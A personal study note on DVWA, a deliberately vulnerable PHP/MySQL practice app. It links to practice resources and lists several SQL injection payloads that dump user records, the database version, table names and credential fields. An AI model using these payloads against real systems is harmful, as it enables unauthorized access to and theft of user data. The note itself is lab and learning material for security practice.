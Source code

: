 ```yaml
---
Owner: Chris Adams
date: 
tags:
  - resources/github
  - cybersecurity/app-sec
  - pentesting
layout: github
draft:
---
```


https://github.com/digininja/DVWA

**Vulnerable Web App**
**THM**: [https://tryhackme.com/room/dvwa](https://tryhackme.com/room/dvwa)
**GitHub**: [https://github.com/digininja/DVWA](https://github.com/digininja/DVWA)
**Kali packages:** [https://www.kali.org/tools/dvwa/](https://www.kali.org/tools/dvwa/)
**SourceForge**: [https://sourceforge.net/projects/dvwa.mirror/](https://sourceforge.net/projects/dvwa.mirror/)
- **DVWA** (Damn Vulnerable Web Application)
    - PHP/MySQL web application for practice
- **SQL Injection**
    - localhost/dvwa
        - ‘ or ‘1’ = ‘1
            - displays all users and surname
        - ‘ union select @@version, null #
            - display database version
        - ‘ and 1 = 0 union select null, table_name from information_schema.tables #
            - displays all tables in information_schema
        - %’ and 1=0 union select null, concat(first_name,0x0a,last_name,0x0a,user,0x0a,password) from users #


---
Link to other Github repos on this site: [[GitHub Resources Index]]